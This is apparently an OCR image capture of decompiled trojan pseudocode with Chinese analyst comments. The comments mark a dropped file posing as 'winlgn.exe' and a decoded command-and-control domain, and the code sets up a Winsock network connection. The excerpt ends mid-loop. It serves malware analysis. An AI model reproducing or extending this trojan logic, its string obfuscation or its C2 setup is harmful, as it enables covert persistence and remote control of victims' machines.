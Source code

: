 ```c
  strcat(byte_4133A0, v2);
  // 将字符串"xjomho/fyf"连接到'Path'中
  strcat((char *)Path, sub_4026E0("xjomho/fyf", 1));                                       // winlgn.exe   // 这个是木马创建的文件

  // 调用函数sub_401740()
  sub_401740();

  // 获取当前模块的文件名并将其存储在'Filename'中
  GetModuleFileNameA(0, Filename, 0x104u);

  // 如果文件名与'Path'不同，并且无法以只读模式打开文件，则调用sub_402740()
  if ( strcmp(Filename, (const char *)Path) && !fopen((const char *)Path, "rb") )
    sub_402740();

  // 当WSAStartup()返回非零值时，持续睡眠
  while ( WSAStartup(0x202u, &stru_412D00) )
    Sleep(0x1388u);

  // 初始化pHints结构体的一些成员
  pHints.ai_flags = 0;
  pHints.ai_addrlen = 0;
  pHints.ai_canonname = 0;
  pHints.ai_addr = 0;
  pHints.ai_next = 0;
  pHints.ai_family = 0;
  pHints.ai_socktype = 1;
  pHints.ai_protocol = 6;

  // 获取一个字符串"pomjofkpiomjof::/psh"并将其存储在'v5'中
  v5 = sub_4026E0("pomjofkpiomjof::/psh", 1);                                                 // onlinejohnline99.org
  v7 = pNodeName;
  do
  {
    LOBYTE(v6) = *v5;
    *v7++ = *v5++;
  }
  while ( (_BYTE)v6 );

  // 调用函数sub_401570()，传入参数v6和v7
  sub_401570(v6, v7);

  // 用循环比较'Path'和'Filename'中的字符，直到出现不相等的字符或遇到空终止符为止
  v8 = Path;
  v9 = Filename;
  while ( 1 )
  {
    v10 = (unsigned __int8)*v9 < *v8;
    if ( *v9 != *v8 )
      break;
    if ( !*v9 )
      goto LABEL_17;
    v11 = v9[1];
    v10 = v11 < v8[1];
    if ( v11 != v8[1] )
      break;
    v9 += 2;
    v8 += 2;
    if ( !v11 )
    {
LABEL_17:
      v12 = 0;
```